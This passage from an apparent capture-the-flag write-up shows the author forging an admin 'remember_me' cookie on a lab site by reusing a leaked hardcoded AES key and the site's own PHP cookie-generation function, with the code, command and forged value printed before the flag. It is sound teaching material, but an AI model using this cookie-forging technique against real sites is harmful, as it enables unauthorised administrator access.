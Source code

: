 It gave me the admin's email. But the password was hidden in a environment variable and I could not read it. 

The `remember_me` cookie looked like it could be used to bypass the login code. I looked at the code used to generate it. 

```php
<?php

$key = "5UP3R_S3CURE,K3Y";
$cipher="AES-128-CBC";

function generate_remember_me_cookie($username, $admin) {
    $iv = substr(md5(mt_rand()), 0, 16);
    $t = time() + (3600 * 24 * 365);
    $data = $username . "|" . $t . "|" . $admin;
    return base64_encode(encrypt($data, $iv) . "|" . $iv);
}
```

I had the secret key, so I could use that function to generate the cookie value. 

```php
<?php
include_once("crypto.php");

echo generate_remember_me_cookie('admin', "1") . "\n";
```

```bash
$ php getCookie.php 
V2E0amJaMUVha25LL29VbDdnMldhNER2cmdNWFZxUWRFck5wVWhBdGtBdz18ZTFkMjNmZDFlZDAxNGE4Yw==
```

I used the generated value to the the `remember_me` cookie and I was connected as the admin of the site. 

The third flag was displayed there: FLAG{3_you_get_a_token_you_get_a_token_you_get_a_token} 

![Admin](/assets/images/2022/02/24hCTF/admin.png "Admin")
